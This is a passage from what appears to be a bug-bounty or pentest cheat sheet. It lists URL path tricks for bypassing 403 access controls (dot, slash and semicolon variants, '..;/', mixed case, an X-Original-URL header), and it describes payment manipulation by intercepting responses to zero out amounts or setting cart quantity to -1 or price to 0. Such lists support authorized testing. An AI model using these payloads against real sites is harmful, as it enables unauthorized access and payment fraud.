 3. Try add dot (.) slash (/) and semicolon (;) in the URL
```
http://target.com/admin => 403
```
Try this to bypass
```
http://target.com/secret/. => 200
http://target.com//secret// => 200
http://target.com/./secret/.. => 200
http://target.com/;/secret => 200
http://target.com/.;/secret => 200
http://target.com//;//secret => 200
```

4. Add "..;/" after the directory name
```
http://target.com/admin
```
Try this to bypass
```
http://target.com/admin..;/
```

5. Try to uppercase the alphabet in the url
```
http://target.com/admin
```
Try this to bypass
```
http://target.com/aDmIN
```

6. Via Web Cache Poisoning
```
GET /anything HTTP/1.1
Host: victim.com
X­-Original-­URL: /admin
```


## Payment Manipulation Vulnerabilities

- Enter an incorrect discount code during a transaction.
- Intercept the HTTP request and response using a proxy tool (e.g., Burp Suite).
- Modify all amount values in the response to 0.
- Send the modified response back to the client to attempt transaction completion.

- **Cart Item Manipulation**: Modify the quantity or price of items in the cart (e.g., set quantity=-1 or price=0) via intercepted requests to lower or nullify the total amount.
- 